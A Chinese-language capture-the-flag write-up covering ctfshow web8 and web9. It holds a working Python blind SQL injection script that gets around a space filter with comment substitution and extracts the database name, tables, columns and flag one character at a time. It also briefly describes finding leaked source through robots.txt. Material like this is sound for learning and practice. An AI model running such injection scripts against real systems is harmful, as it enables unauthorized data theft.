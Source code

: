 尝试注入发现过滤and跟union

联合注入不可行

写脚本盲注

```python
import requests
url = 'https://83203fa0-bb20-45e7-9792-1b8a9165b2c4.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''
for i in range(1, 45):
    payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # payload = 'ascii(substr((group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # payload = 'ascii(substr((group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'

    # payload = 'ascii(substr((group_concat(flag)from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('第%d个字符' % i)
    for j in range(31,128):
        result = requests.get(url + payload % (i,j))
        if 'If' in result.text:
            name += chr(j)
            print('库名: %s' % name)
            break
        count += 1
        if count >= (128 - 31):
            exit()
```



![image-20240510175443251](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240510175443251.png)

库名为web8

容器过期了后面不做了，脚本写出来就好说了

## ctfshow web9

访问发现是一个登录框

尝试sql注入不行

信息收集查看robot.txt

发现index.phps

访问下载源代码

发现密码有MD5加密

查询语句中解密验证输入密码对错

![image-20240510211246203](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240510211246203.png)
